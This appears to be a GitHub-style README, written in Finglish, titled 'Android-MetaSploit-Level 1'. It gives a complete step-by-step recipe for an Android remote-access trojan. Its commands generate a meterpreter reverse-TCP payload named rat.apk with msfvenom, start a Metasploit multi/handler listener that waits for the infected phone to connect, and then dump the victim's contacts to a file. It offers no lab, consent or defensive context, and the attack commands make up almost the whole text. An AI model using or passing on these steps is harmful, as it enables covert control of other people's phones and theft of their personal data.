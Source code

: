 ### Script `Android-MetaSploit-Level 1`

$ Kali linux bayad dar halat root bashad

```bash
sudo -s
```

$ "LHOST" va "LPORT" ra jaygozari va enter mikonim (*=ifcongig / **= port delkhah )

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=* LPORT=** -o /home/kali/Desktop/rat.apk
```


$ sepas abzar metasploit ra ejra mikonim

```bash
msfconsole
```

$ bad az baz shodan abzar metasploit b tartib code haye zer ra mizanim

```bash
use exploit/multi/handler
```

```bash
set payload android/meterpreter/reverse_tcp
```

```bash
options
```

```bash
set LHOST *
```

```bash
set LPORT **
```


$ bad az etmam dobare "options" ra zade ta az set shoan "LHOST" va "LPORT" etmenan hasel konim va sepas :

```bash
options
```

```bash
exploit
```

```bash
help
```

---------------------------------------------------------------------------

`example` : For save contact : `dump_contacts -o /home/kali/Desktop/contact.txt`

